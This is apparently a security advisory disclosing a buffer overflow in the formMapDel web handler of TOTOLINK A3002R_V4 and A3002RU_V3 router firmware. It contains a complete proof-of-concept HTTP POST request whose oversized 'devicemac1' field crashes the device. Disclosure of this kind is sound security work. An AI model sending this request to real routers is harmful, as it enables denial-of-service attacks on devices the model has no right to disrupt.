




# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [A3002R_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/258.html)/[A3002RU_V3](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/221.html)

**Affected firmware version:** V3.0.0-B20230809.1615

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/menu_listtpl/listtpl/prod/id/26.html?page=1))

# Overview

A serious buffer overflow vulnerability has been discovered in TOTOLINK A3002RU V3 and A3002R_V4. This vulnerability can be triggered by the route /boafrm/formMapDel. An attacker can implement a denial of service attack by sending an HTTP POST request.

# Vulnerability details

Function formMapDel is implemented by function sub_45E298



Here, choosing to copy directly without checking the length causes a buffer overflow.



# POC

```
POST /boafrm/formMapDel HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 593
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/parent_control.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=1f9685b1eb3e1d38c2fd19e467a8c6ff&deviceNum=1&enabled1=ON&devicemac1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



